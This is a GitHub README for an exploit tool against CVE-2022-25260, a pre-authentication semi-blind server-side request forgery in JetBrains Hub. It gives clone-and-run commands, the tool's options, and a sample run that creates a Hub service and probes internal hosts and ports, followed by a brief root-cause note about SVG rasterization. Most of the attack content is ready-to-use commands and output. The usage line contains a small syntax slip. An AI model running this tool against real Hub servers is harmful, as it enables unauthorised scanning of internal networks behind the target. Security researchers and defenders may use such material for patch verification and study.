

# CVE-2022-25260
JetBrains Hub pre-auth semi-blind server-side request forgery (SSRF)

## Requirements

- JetBrains Hub <2021.1.14276
- JetBrains Hub before 2021.1.14276 was vulneable to improper access control (CVE-2022-34894), which allows an attacker create untrusted services without authentication even if guest user is disabled. This makes it possible to exploit the vulnerablity without any other requirements (normally an attacker should be at least authenticated)

## Usage

Install & run:
```powershell
$ git clone https://github.com/yuriisanin/CVE-2022-25260
$ cd CVE-2022-25260/
$ python3 exploit.py -h

|--------------------------------------------------------------------|
|       CVE-2022-25260 JetBrains Hub pre-auth semi-blind SSRF        |
|           developed by Yurii Sanin (Twitter: @SaninYurii)          |
|--------------------------------------------------------------------|
usage: exploit.py [-h] -hub_url HUB_URL -email EMAIL [-internal_urls_file INTERNAL_URLS_FILE] [-internal_url INTERNAL_URL]

optional arguments:
  -h, --help            show this help message and exit
  -hub_url HUB_URL      Target Hub instance
  -email EMAIL          Email address of any user in the system
  -internal_urls_file INTERNAL_URLS_FILE
                        Path to internal service URLs file
  -internal_url INTERNAL_URL
                        Internal service URL
  
```

Usage:

```powershell
$ python3 exploit.py hub_url http://localhost:8080 -email hello@0d.tf -internal_urls_file ./assets/payloads/urls.txt

|--------------------------------------------------------------------|
|       CVE-2022-25260 JetBrains Hub pre-auth semi-blind SSRF        |
|           developed by Yurii Sanin (Twitter: @SaninYurii)          |
|--------------------------------------------------------------------|
[INFO] - staring scanning for 14 urls.
[INFO] - trying to create Hub service.
[INFO] - Hub service create, serviceId: '02cc6043-1469-4a8e-9a74-b003e721620c'.
[INFO] - trying to request: 'http://127.0.0.1:8080'.
[INFO] - OK. Host 'http://127.0.0.1:8080' is running HTTP service (XML-like response) [FOUND]. Message: 'Attribute name "ng-strict-di" associated with an element type "html" must be followed by the ' = ' character.'.
[INFO] - trying to request: 'http://127.0.0.1:8081'.
[INFO] - OK. Host 'http://127.0.0.1:8081' is DOWN.
[INFO] - trying to request: 'http://google.com'.
[INFO] - OK. Host 'http://google.com' is running HTTP service (presumably XML-like response) [FOUND]. Message: 'The markup in the document preceding the root element must be well-formed.'.
```

**DEMO:**



## How does it work?

The vulnerability was possible due to use of Apache Batik with default settings for user-supplied SVG icon rasterization. You can find more information about exploting server-side SVG rasterization [HERE](https://github.com/yuriisanin/svg2raster-cheatsheet).


## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).
